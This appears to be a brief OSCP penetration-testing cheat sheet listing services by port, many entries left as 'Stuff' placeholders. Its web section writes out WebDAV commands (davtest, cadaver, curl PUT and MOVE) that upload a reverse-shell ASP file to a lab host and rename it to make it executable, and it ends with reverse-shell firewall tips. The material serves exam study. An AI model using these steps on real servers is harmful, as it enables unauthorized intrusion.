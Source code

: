 # OSCP Tips

## Services | Things to try

SSH (22)
* Fingerprint server/OS, SSH key

HTTP (80|8080)
* Curl for HTTP header

Telnet (23)
* Stuff

SMTP (25)
* Stuff

NETBIOS (139)
* Stuff

SMB (445)
* [MS08-067] NetAPI module in Windows SMB (

SAMBA

MSRPC (135)
* Stuff

## Web Stuff

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

WEBDAV vulns - using tools
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```

## Reverse Shell Tips

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).
